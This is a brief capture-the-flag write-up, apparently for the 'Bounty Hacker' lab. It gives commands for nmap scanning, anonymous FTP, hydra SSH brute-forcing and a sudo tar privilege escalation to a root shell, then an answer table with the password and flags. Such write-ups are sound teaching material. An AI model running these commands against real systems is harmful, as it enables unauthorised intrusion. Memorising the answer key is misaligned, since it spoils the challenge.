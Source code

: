 # Bounty Hacker

ip : `10.10.116.234`

nmap scanning 
```
nmap -sV -T5 -A 10.10.116.234 -oN service-scaning.txt
```
login with ftp as anonymous
```
ftp 10.10.116.234
```
bruteforcing ssh with hydra
```
hydra -l lin -P locks.txt 10.10.116.234 ssh -t 4
```

tar is vulnerable as per
```
sudo -l
```

PrivEsc
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

| Questions | Answers |
|-----------|---------|
| Who wrote the task list? | lin |
| What service can you bruteforce with the text file found? | ssh | 
| What is the users password ? | RedDr4gonSynd1cat3 |
| user.txt | THM{CR1M3_SyNd1C4T3} |
| root.txt | THM{80UN7Y_h4cK3r} |

